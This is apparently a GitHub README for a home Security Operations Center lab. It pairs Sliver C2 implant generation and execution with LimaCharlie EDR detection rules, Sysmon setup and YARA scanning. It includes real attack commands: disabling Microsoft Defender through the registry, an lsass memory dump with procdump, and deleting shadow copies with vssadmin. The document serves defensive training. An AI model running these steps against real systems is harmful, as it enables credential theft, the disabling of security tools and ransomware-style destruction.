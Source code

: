 # SOC-MOCK
![Image](.png)
## Objective 
This project aimed to build a realistic Security Operations Center (SOC) training environment focusing on practical skills for detecting and responding to cyber threats.
- Advanced threat detection tools like Sysmon and LimaCharlie EDR were deployed for real-time analysis
- Adversary techniques were simulated, and threat responses were automated to stay ahead of potential risks
- YARA rules were integrated to enhance malware detection capabilities
<br><br>

## Components

- **VirtualBox**: Used for creating and managing virtual machines
- **Ubuntu Server VM**: Used to deploy the Sliver C2 framework, which acts as a simulated attacker tool
- **Windows VM**: Used as victim endpoint device
- **LimaCharlie EDR**: An EDR platform used to collect, analyze logs and investigate telemetry from the Windows VM
- **Sliver C2**: A simulated attacker tool used to create a Command & Control (C2) server on the Ubuntu VM
- **YARA Rules**: Specific sets of instructions used to identify malware based on patterns
- **Sysmon**: Windows system service used to monitor and log system activity to the event log
- **VirusTotal**: A service for analyzing suspicious files and URLs for malware
- **NAT Network**: Configured in VirtualBox for network simulation

<details>
  <summary><h2><b>Section 1: Setting up the Virtual Environment</b></h2></summary>
  This section will guide through the setup of virtual environment using VirtualBox (If you want you, can use VMware as well). Configure a NAT network and install two virtual machines – one for Ubuntu Server and another for a Windows 10. <br><br>

   **1: Download and setup Virtualbox**:  
    You can download Virtualbox from here. Setup is pretty straightforward
    <br><br>
   **2: Create a New VM for Windows 10**:  
   Next, set up a new virtual machine in VirtualBox for Windows 10.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 50 GB
    <br><br>
    
   **3: Create a New VM for Ubuntu Server**:  
    Now, set up a new virtual machine in VirtualBox for Ubuntu Server.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 20 GB
   - During OS install, **leave defaults as is**
  ![Image](https://imgur.com/GDfOZmg.png)
    <br><br>
  - After installation it should look like this:
  ![Image](https://imgur.com/9VNGxVp.png)
    <br><br>
       
   **4: Configure Windows VM**:  
    Permanently disable Microsoft Defender so it doesn’t interfere with the fun stuff we’re planning. This is pretty tricky (especially in Windows 11) as Defender will turn itself back on.
1. Disable Tamper Protection
  - Go to "Windows Security"
  - Click “Virus & threat protection”
  - Under “Virus & threat protection settings” click “Manage settings”
  - Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”
![Image](https://imgur.com/iTuPTwi.png)
  - Toggle every other option OFF as well
2. Permanently Disable Defender via Group Policy Editor
  - Click the “Start” menu icon
  - Type “cmd” into the search bar within the Start Menu
  - Right+Click “Command Prompt” and click “Run as administrator”
  - Run the following command
```
gpedit.msc
```
  - Inside the Local Group Policy Editor
  - Click Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
  - Double-click “Turn off Microsoft Defender Antivirus”
  - Select “Enabled” (If you enable this policy setting, Defender doesn't run, and will not scan for malware or other potentially unwanted software)
  - Click "Apply"
![Image](https://imgur.com/9bsP5Lf.png)
3. Permanently Disable Defender via Registry
  - From the same administrative cmd, copy/paste this command and press Enter
<br>

```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

</br>

4. Prepare to boot into Safe Mode to disable all Defender services
  - Click the “Start” menu icon
  - Type “msconfig” into the search bar
  - Go to “Boot” tab and select “Boot Options”
  - Check the box for “Safe boot” and “Minimal”
![Image](https://imgur.com/0K1OBWq.png)
  - Click Apply and OK
  - System will restart into Safe Mode

5. Now, in Safe Mode, we’ll disable some services via the Registry
  - Press the “Win + R"
  - Type “regedit” into the search bar and hit Enter
  - For each of the following registry locations, browse to the key, find the “Start” value, and change it to "4"
![Image](https://imgur.com/IWskQZt.png)
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter

6. Leave Safe Mode the same way we got into it
  - Uncheck the box for “Safe boot”
  - System will restart into normal desktop environment, hopefully Defender-free
    <br><br>
</details>

<details>
  <summary><h2><b>Section 2: Install Sysmon in Windows VM</b></h2></summary>

This is actually optional in this project, but it’s a must-have analyst tool for getting very granular telemetry on your Windows endpoint. You can read more about it
[here](https://www.learn.microsoft.com/en-us/sysinternals/downloads/sysmon/). 

1. **Launch an Administrative PowerShell console for the following commands:**

- Click the “Start” menu icon
- Type “Powershell” into the search bar within the Start Menu
- Click “Windows PowerShell” and click “Run as administrator”

2. **Download Sysmon with the following command:**
```
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
3. **Unzip sysmon.zip**
```
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
4. **Download SwiftOnSecurity’s Sysmon config**
```
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
5. **Install Sysmon with Swift’s config**
```
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
![Image](https://imgur.com/eUuEwgD.png)

6. **Check Sysmon64 service is installed and running**
```
Get-Service sysmon64
```
7. **Check for the presence of Sysmon Event Logs**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10
```
  <br><br>
</details>

<details>
  <summary><h2><b>Section 3: Install LimaCharlie EDR on Windows VM</b></h2></summary>

  [LimaCharlie](https://www.limacharlie.io/) 
  is a very powerful SecOps Cloud Platform. It not only comes with a cross-platform EDR agent, but also handles all of the log shipping/ingestion and has a threat detection engine. In free version you can create for up to two systems which is great for projects like this.

1. **Create a free LimaCharlie account**
- LimaCharlie will ask you a few questions about your role. Answer however you like.

2. **Create an organization**

Name: *Anything*

Data Residency Region: *Closest to you*

Demo Configuration Enabled: *Disabled*

Template: *Extended Detection & Response Standard*
![Image](https://imgur.com/T1INyuQ.png)

3. **Click "Add a Sensor"**

- Select Windows
- Provide a description such as: Windows VM - Lab
- Click Create
- Select the Installation Key we just created
![Image](https://imgur.com/ba1VqUg.png)
- Select the "x86-64 (.exe)" sensor
![Image](https://imgur.com/mP2CI8j.png)



- In Windows VM, open an Administrative PowerShell and paste the following commands:
```
cd C:\Users\User\Downloads
```
```
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
```
![Image](https://imgur.com/LGFmfRt.png)
- Shift into a standard admin cmd

- Copy the install command provided by LimaCharlie which contains the installation key. Paste this command into your open terminal.
![Image](https://imgur.com/D0UvIR4.png)

- If everything worked correctly, in the LimaCharlie web UI you should see the sensor reporting in


4. **Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry**

- In the left-side menu, click “Artifact Collection”
- Next to “Artifact Collection Rules” click “Add Rule”
```
Name: windows-sysmon-logs
Platforms: Windows
Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10
```
- Click “Save Rule”
![Image](https://imgur.com/VgxX27Q.png)

LimaCharlie will now start shipping Sysmon logs which provide a wealth of EDR-like telemetry, some of which is redundant to LC’s own telemetry, but Sysmon is still a very power visibility tool that runs well alongside any EDR agent.

The other reason we are ingesting Sysmon logs is that the built-in Sigma rules we previously enabled largely depend on Sysmon logs as that is what most of them were written for.

> Now would be a good time to Snapshot your Windows VM
</details>

<details>
  <summary><h2><b>Section 4: Setup Attack System </b></h2></summary>
  I recommend using an SSH client to access the Ubuntu VM so that you can easily copy/paste commands.

1. **Open your CLI**

```
ssh username@[Linux_VM_IP]
```

2. **Now, from within this new SSH session, proceed with the following instructions to setup our attacker C2 server. First, gain access to the root shell to make life easier.**

```
sudo su
```

3. **Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.**

- Download Sliver Linux server binary
```
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
```
- Make it executable
```
chmod +x /usr/local/bin/sliver-server
```
- install mingw-w64 for additional capabilities
```
apt install -y mingw-w64
```
- Create our future working directory
```
mkdir -p /opt/sliver
```
![Image](https://imgur.com/LCfhKok.png)

> Explore the LimaCharlie web interface to learn more about what it can do!
</details>
<details>
  <summary><h2><b>Section 5: Generate the Command & Control payload </b></h2></summary>
  Either from your SSH session or directly from your Ubuntu Server, take the following actions:
  <br></br>

  1. **Access root shell and change dir to Sliver install**

```
sudo su
cd /opt/sliver
```

  2. **Launch Sliver server**

```
sliver-server
```
![Image](https://imgur.com/8DsuXyT.png)
  3. **Generate C2 session payload. Use your Linux VM’s IP address**
```
generate --http [Linux_VM_IP] --save /opt/sliver
```
![Image](https://imgur.com/EN108X6.png)
  4. **Confirm the new implant configuration**
```
implants
```
  5. **Now we have a C2 payload we can drop onto our Windows VM. Exit Sliver for now.**
```
exit
```

  6. **To easily download the C2 payload from the Linux VM to the Windows VM, use this python trick that spins up a temp web server**
```
cd /opt/sliver
python3 -m http.server 80
```
![Image](https://imgur.com/gQG90re.png)
  7. **Switch to the Windows VM and launch an Admin PowerShell console to download the implant from Ubuntu server**
```
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```
![Image](https://imgur.com/iU5lry0.png)
> Now would be a good time to snapshot your Windows VM, before we execute the malware.

</details>
<details>
  <summary><h2><b>Section 6: Start Command & Control Session  </b></h2></summary>

1. **Now that the payload is on the Windows VM, switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback**

- Terminate the python web server by pressing "Ctrl + C"
- Now, relaunch Sliver
```
sliver-server
```
- Start the Sliver HTTP listener
```
http
```
![Image](https://imgur.com/2RqMkmX.png)
- If you get an error starting the HTTP listener, reboot the VM

2. **Return to the Windows VM and execute the C2 payload from its download location using the same admin PowerShell prompt**
```
C:\Users\User\Downloads\<your_C2-implant>.exe
```
![Image](https://imgur.com/N8Z5Xo1.png)
3. **Within a few moments, you should see your session check in on the Sliver server**
![Image](https://imgur.com/1Rs38Xn.png)
4. **Verify your session in Sliver, and note its Session ID**
```
sessions
```
5. **To interact with your new C2 session, type the following command into the Sliver shell**
```
use [session_id]
```

> c0ngratulations! you pwned your Windows VM
6. **Now, run a few basic commands**

- To get info about the session
```
info
```
- Find out the user and learn his privileges
```
whoami
```
![Image](https://imgur.com/IO9bJZi.png)
```
getprivs
```
![Image](https://imgur.com/Krpmh17.png)
> If your implant was properly run with Admin rights, you’ll notice you have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” — if you don't see these privileges, make sure you ran the implant from an Admin command prompt
- Identify implant’s working dir
```
pwd
```
- Examine network connections occurring on the remote system
```
netstat
```
- Identify running processes on the remote system
```
ps -T
```
![Image](https://imgur.com/AIMklUP.png)
> Notice that Sliver highlights its own process in green and any defensive tools in red. This is how attackers become aware of what security products a victim system using.
  </details>

<details>
  <summary><h2><b>Section 7: Observe EDR Telemetry</b></h2></summary>

1. **Hop into the LimaCharlie web UI and check out some basic features**

- Click “Sensors” on left menu

- Click your active Windows sensor


- On the new left-side menu for this sensor, click “Processes”


> Explore what is returned in the process tree. Hover over some of the icons to see what they represent

![Image](https://imgur.com/GZ9FZm0.png)
Knowing common processes on a system is very important. As professionals say at SANS, *“you must know normal before you can find evil”* Check out this [“Hunt Evil”](https://www.sans.org/posters/hunt-evil/) poster from SANS.


2. **One of the easiest ways to spot unusual processes is to simply look for ones that are NOT signed**
- The C2 implant shows as not signed, and is also active on the network.

![Image](https://imgur.com/2frmDNQ.png)

- Notice how quickly we are able to identify the destination IP this process is communicating with.

3. **Now click the “Network” tab on the left-side menu**

- Explore what is returned in the network list. "Ctrl+F" to search for your implant name

4. **Now click the “File System” tab on the left-side menu**

- Browse to the location we know our implant to be running from

![Image](assets/3.gif)

5. **Inspect the hash of the suspicious executable by scanning it with VirusTotal**

> “*Item not found*” on VirusTotal doesn't mean that this file is innocent, it just might not that scanned before. This makes sense because you just generated this payload, so of course it’s not likely to be seen by VirusTotal before. So, if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your instincts. This actually makes a file even more suspicious because nearly everything has been seen by VirusTotal, so your sample may have been custom-crafted/targeted.

6. **Click “Timeline” on the left-side menu of our sensor. This is a real-time view of EDR telemetry + event logs streaming from this system**

- Read about the various EDR events in the LimaCharlie docs.

- Filter your timeline with known IOCs (indicators of compromise) such as the name of your implant or the known C2 IP address

- If you scroll back far enough, should be able to find the moment your implant was created on the system, and when it was launched shortly after, and the network connections it created immediately after

![Image](https://imgur.com/pV7Z8qm.png)

7. **Examine the other events related to your implant process** 

- you’ll see it is responsible for other events such as “SENSITIVE_PROCESS_ACCESS” from when you enumerated your privileges in an earlier step. This particular event will be useful later on when you will craft your first detection rule

> I recommend spending more time exploring LimaCharlie telemetry to familiarize yourself not only with the known-bad events, but also the abundance of “normal” things happening on your “idle” Windows VM.

  </details>

<details>
  <summary><h2><b>Section 8: Wear the Black Hat  </b></h2></summary>

Go back into Sliver C2 session and do some shady stuff that you would be able to detect.

1. **Drop into a C2 session on your victim**

2. **Run the following commands within the Sliver session on your victim host**

- First, we need to check our privileges to make sure we can perform privileged actions on the host
```
getprivs
```
- A powerful command to check privilege for *SeDebugPrivilege* which opens the door for many things. If you’ve got that, we’re good. If you don’t, you need to relaunch your C2 implant with administrative rights

- Next, do something adversaries love to do for stealing credentials on a system — *dump the lsass.exe process from memory.* Read more about this technique [here](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)
```
procdump -n lsass.exe -s lsass.dmp
```
This will dump the remote process from memory, and save it locally on your Sliver C2 server.

> NOTE: This will fail if you did not launch your C2 payload with admin rights on the Windows system. Even if it fails it will generate telemetry need.

2. **Now Let’s Detect It**

Now, switch over to LimaCharlie to find the relevant telemetry

- Since *lsass.exe* is a known sensitive process often targeted by credential dumping tools, any good EDR will generate events for this

- Go to "Timeline" of your Windows VM sensor and use the “Event Type Filters” to filter for “SENSITIVE_PROCESS_ACCESS” events.
There will likely be many of these, but pick any one of them as there isn’t much else on this system that will be legitimately accessing "lsass"
![Image](https://imgur.com/Su8gSsG.png)


- Now that we know what the event looks like when credential access occurred, we have what we need to craft a detection & response (D&R) rule that would alert anytime this activity occurs
![Image](https://imgur.com/mNWqOEt.png)
- Click the button in the screenshot to begin building a detection rule based on this event

- In the “Detect” section of the new rule, remove all contents and replace them with this
```
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
```
![Image](https://imgur.com/oxRKaBy.png)
- We’re specifying that this detection should only look at *"SENSITIVE_PROCESS_ACCESS"* events where the victim or target process ends with "lsass.exe"

- In the “Respond” section of the new rule, remove all contents and replace them with this
```
action: report
name: LSASS access
```
- We’re telling LimaCharlie to simply generate a detection “report” anytime this detection occurs. We could ultimately tell this rule to do all sorts of things, like terminate process chain, etc.

- Now let’s test our rule against the event we built it for. Lucky for us, LimaCharlie carried over that event it provides a quick and easy way to test the D&R logic. Click “Target Event” below the D&R rule you just wrote. Here you will see the raw event we observed in the timeline earlier

- Scroll to the bottom of the raw event and click “Test Event” to see if our detection would work against this event.
![Image](https://imgur.com/W00C0rY.png)
- Notice that we have a “Match” and the D&R engine tells you exactly what it matched on.
![Image](https://imgur.com/mM1Vae5.png)

- Scroll back up and click “Save Rule” and give it the name “LSASS Accessed” and be sure it is enabled

3. **Return to your Sliver server console, back into your C2 session, and rerun same "procdump command"**

- After rerunning the procdump command, go to the “Detections” tab on the LimaCharlie main left-side menu.
![Image](https://imgur.com/buIAvmX.png)

> Congratulations! You’ve just detected a threat with your own detection signature! Expand a detection to see the raw event

![Image](https://imgur.com/FZFn6xt.png)

- Notice you can also go straight to the timeline where this event occurred by clicking “View Event Timeline” from the Detection entry
  </details>

  <details>
  <summary><h2><b>Section 9: Blocking Attacks</b></h2></summary>
Wouldn’t it be great if we could block the threat rather than just generate an alert?

Craft a rule that would be very effective at disrupting a ransomware attack by looking for a predictable action that ransomware tends to take: [Deletion of Volume Shadow Copies](https://redcanary.com/blog/its-all-fun-and-games-until-ransomware-deletes-the-shadow-copies/)

> Why This Rule? "Volume Shadow Copies" provide a convenient way to restore individual files or even an entire file system to a previous state which makes it a very attractive option for recovering from a ransomware attack. For this reason, it’s become very predictable that one of the first signs of an impending ransomware attack is the "deletion of volume shadow copies".

A basic command that would accomplish this
```
vssadmin delete shadows /all
```

1. **Get back into Sliver C2 shell**

> If you have issues reestablishing your HTTP listener, try rebooting your Ubuntu system

In your Sliver C2 shell on the victim, run this command:
```
shell
```
- When prompted with “This action is bad OPSEC, are you an adult?” type "Yes" if you are an adult, "No" if you are not :) and hit enter

In the new System shell, run the following command:
```
vssadmin delete shadows /all
```
- The output is not important as there may or not be Volume Shadow Copies available on the VM to be deleted, but running the command is sufficient to generate the telemetry we need

Run this command to verify we still have an active system shell:
```
whoami
```
2. **Browse over to LimaCharlie’s detection tab to see if default Sigma rules picked up on our noise**
![Image](https://imgur.com/U0tHpxW.png)

- Click to expand the detection and examine all of the metadata contained within the detection itself. One of the great things about Sigma rules is they are enriched with references to help understand why the detection exists in the first place

- Click "View Event Timeline" to see the raw event that generated this detection
![Image](https://imgur.com/v8rFY9i.png)
- Craft a Detection & Response (D&R) rule from this event
![Image](https://imgur.com/Cjq9dBC.png)

From this D&R rule template, we can begin crafting our response action that will take place when this activity is observed. Add the following *"Response"* rule to the Respond section:
```
- action: report
  name: vss_deletion_kill_it
- action: task
  command:
    - deny_tree
    - <<routing/parent>>
```
- The “action: report” section simply creates a Detection report to the “Detections” tab

- The “action: task” section is what is responsible for killing the parent process responsible with "deny_tree" for the *vssadmin delete shadows /all command*

- Save your rule with the following name: vss_deletion_kill_it

3. **Test it**

Now return to Sliver C2 session, and rerun the command and see what happens.

Run the command to delete volume shadows:
```
vssadmin delete shadows /all
```
- The command should succeed, but the action of running the command is what will trigger our D&R rule
![Image](https://imgur.com/a4Dhfxc.png)

Now, to test if our D&R rule properly terminated the parent process, check to see if you still have an active system shell by rerunning the *"whoami"* command:
```
whoami
```
- If D&R rule worked successfully, the system shell will hang and fail to return anything from the *whoami* command, because the parent process was terminated


> Note, you also may receive output such as “Shell Exited” — this is functionally the same thing as it hanging and providing no output. This is effective because in a real ransomware scenario, the parent process is likely the ransomware payload or lateral movement tool that would be terminated in this case
  </details>

  <details>
  <summary><h2><b>Section 10: Automated YARA Scanning</b></h2></summary>
The goal of this section is to take advantage of a more advanced capability of any good EDR sensor, to automatically scan files or processes for the presence of malware based on a YARA signature.
<br></br>
> What is YARA? YARA is a tool primarily used for identifying and classifying malware based on textual or binary patterns. It allows researchers and security professionals to craft rules that describe unique characteristics of specific malware families or malicious behaviors. These rules can then be applied to files, processes, or even network traffic to detect potential threats. When analyzing a compromised system, YARA helps in filtering through large amounts of data to find malicious artifacts by matching them against a set of predefined rules. This ability to create customized detection signatures is particularly useful in threat hunting and incident response, enabling fast identification of known and even previously unknown malicious elements.

There are many free and open source YARA scanners and rulesets. You can read more about YARA from [VirusTotal](https://virustotal.github.io/yara/) or explore one of the many open source [YARA rulesets](https://github.com/Yara-Rules/rules).

Prepare LimaCharlie for detecting certain file system and process activities in order to trigger YARA scans.

1. **Add a YARA signature for the Sliver C2 payload**

Since we’re dealing with the Sliver C2 payload, we can be more targeted in by using a signature specifically looking for [Sliver](https://sliver.sh/docs?name=Getting+Started). I've used UK National Cyber Security Centre [publication](https://www.ncsc.gov.uk/files/Advisory%20Further%20TTPs%20associated%20with%20SVR%20cyber%20actors.pdf) on Sliver, including YARA signatures and other useful detections.

![Image](https://imgur.com/klrX5b4.png)
- Under “Automation” > “YARA Rules”, Click Add Yara Rule

![Image](https://imgur.com/UDm7nMA.png)
- Name the rule as "sliver"
- Copy and paste the contents from the code snippet of the YARA Rules section of the [publication](https://www.ncsc.gov.uk/files/Advisory%20Further%20TTPs%20associated%20with%20SVR%20cyber%20actors.pdf) into the Rule block
- Click “Save Rule”

Now create one more YARA rule with a name "sliver-process" and Copy/Paste this:
```
rule sliver_strings {
  meta:
    author = "You"
    description = "Detects Sliver Windows and Linux implants based on obvious strings"
  strings:
    $p1 = "/sliver/"
    $p2 = "sliverpb"
  condition:
    all of ($p*)
}
```

2. **Create D&R rules that will generate alerts whenever a YARA detection occurs**

- Go to “Automation” > “D&R Rules”

- Create a new rule

In the Detect block, paste the following:
```
event: YARA_DETECTION
op: and
rules:
  - not: true
    op: exists
    path: event/PROCESS/*
  - op: exists
    path: event/RULE_NAME
```
> Notice that we’re detecting on YARA detections not involving a PROCESS object, that’ll be its own rule shortly.

In the Respond block, paste the following:
```
- action: report
  name: YARA Detection {{ .event.RULE_NAME }}
- action: add tag
  tag: yara_detection
  ttl: 80000
```
- Save the rule and title it "YARA Detection"

Create another rule and in the Detect block, paste the following:
```
event: YARA_DETECTION
op: and
rules:
  - op: exists
    path: event/RULE_NAME
  - op: exists
    path: event/PROCESS/*
```
> Notice that this detection is looking for YARA Detections specifically involving a PROCESS object.

In the Respond block, paste the following:
```
- action: report
  name: YARA Detection in Memory {{ .event.RULE_NAME }}
- action: add tag
  tag: yara_detection_memory
  ttl: 80000
```
- Save the rule and title it "YARA Detection in Memory"

3. **Test the new YARA signature**

Since we already know we have a Sliver implant sitting in the Downloads folder of our Windows VM, we can easily test our signature by initiating a manual YARA scan using the EDR sensor.

- In LimaCharlie, browse to the “Sensors List” and click on our Windows VM sensor


Access the EDR Sensor Console which allows us to run sensor commands against this endpoint


Go to "Console" and run the following command to kick off a manual YARA scan of our Sliver payload:
```
yara_scan hive://yara/sliver -f C:\Users\User\Downloads\[payload_name].exe
```
> Replace [payload_name] with your actual payload name

![Image](https://imgur.com/SsFumfj.png)
- Hit enter
- Now, also confirm that you have a new Detection on the “Detections” screen

4. **Automatically YARA scan downloaded EXEs**

- Browse to “Automation” > “D&R Rules”
- Create a new rule

In the Detect block, paste the following:
```
event: NEW_DOCUMENT
op: and
rules:
  - op: starts with
    path: event/FILE_PATH
    value: C:\Users\
  - op: contains
    path: event/FILE_PATH
    value: \Downloads\
  - op: ends with
    path: event/FILE_PATH
    value: .exe
```
> Notice that this detection is simply looking for NEW .exe files to appear in any users Downloads directory

In the Respond block, paste the following:
```
- action: report
  name: EXE dropped in Downloads directory
- action: task
  command: >-
    yara_scan hive://yara/sliver -f "{{ .event.FILE_PATH
    }}"
  investigation: Yara Scan Exe
  suppression:
    is_global: false
    keys:
      - '{{ .event.FILE_PATH }}'
      - Yara Scan Exe
    max_count: 1
    period: 1m
```
> This response action generates an alert for the EXE creation, but more importantly, kicks off a YARA scan using the Sliver signature against the newly created EXE.

- Save the rule and title it "YARA Scan Downloaded .exe"

5. **Automatically YARA scan processes launched from Downloads directory**

- Browse to “Automation” > “D&R Rules”
- Create a new rule

In the Detect block, paste the following:
```
event: NEW_PROCESS
op: and
rules:
  - op: starts with
    path: event/FILE_PATH
    value: C:\Users\
  - op: contains
    path: event/FILE_PATH
    value: \Downloads\
```
> This rule is matching any process that is launched from a user Downloads directory

In the Respond block, paste the following:
```
- action: report
  name: Execution from Downloads directory
- action: task
  command: yara_scan hive://yara/sliver-process --pid "{{ .event.PROCESS_ID }}"
  investigation: Yara Scan Process
  suppression:
    is_global: false
    keys:
      - '{{ .event.PROCESS_ID }}'
      - Yara Scan Process
    max_count: 1
    period: 1m
```
> Notice in this rule, we’re no longer scanning the "FILE_PATH", but the actual running process by specifying its "PROCESS_ID". We are also now using "sliver-process" rule

- Save the rule and title it "YARA Scan Process Launched from Downloads"

6. **Trigger the new rules**

Scanning New EXEs in Downloads dir. You don't need to re-download Sliver payload, moving it another dir and putting back is enough to trigger.
![Image](https://imgur.com/FBU0KaI.png)
Run the following PowerShell command to move your Sliver payload from Downloads to Documents:
```
Move-Item -Path C:\Users\User\Downloads\[payload_name].exe -Destination C:\Users\User\Documents\[payload_name].exe
```
Now, put it back to generate the "NEW_DOCUMENT" event for an EXE being dropped into the Downloads folder
```
Move-Item -Path C:\Users\User\Documents\[payload_name].exe -Destination C:\Users\User\Downloads\[payload_name].exe
```
> Replace [payload_name] with your actual payload name

Head over to your Detections tab and see what happened. It may take a moment.
![Image](https://imgur.com/yN7iGRF.png)
- As you can see an initial alert for EXE dropped in Downloads directory followed shortly by a YARA detection once the scan kicked off and found Sliver inside the EXE

7. **Scanning processes launched from Downloads**

Now test "NEW_PROCESS" rule to scan running processes launched from Downloads dir.
![Image](https://imgur.com/dbznaGt.png)
- Launch an Administrative PowerShell prompt

First, check for any existing instances of Sliver C2 and kill it
```
Get-Process [payload_name] | Stop-Process
```
Execute your Sliver payload to create the "NEW_PROCESS" event we need to trigger the scanning of a process launched from the Downloads dir:
```
C:\Users\User\Downloads\[payload_name].exe
```
Head over to your Detections tab and see what happened!
![Image](https://imgur.com/ioH03cw.png)
- You should see an initial alert for Execution from Downloads directory followed shortly by a YARA detection in Memory once the scan kicked off and found Sliver inside the EXE

```
░▀▄─────▄▀░▐█▀▀█▌░█░█──░██▄─░█▌─░▄█▀▄─░▐██░██───░▐█▀▀░▐█▀█▄──░▐██░█▀█▀█░█ 
──░▀▄─▄▀──░▐█▄░█▌░█░█──░▐█░█░█─░▐█▄▄▐█─░█▌░██───░▐█▀▀░▐█▌▐█───░█▌──░█───▀ 
────░█────░▐██▄█▌░▀▄▀──░██─░██▌░▐█─░▐█░▐██░██▄▄█░▐█▄▄░▐█▄█▀──░▐██─░▄█▄─░▄ 
```
  </details>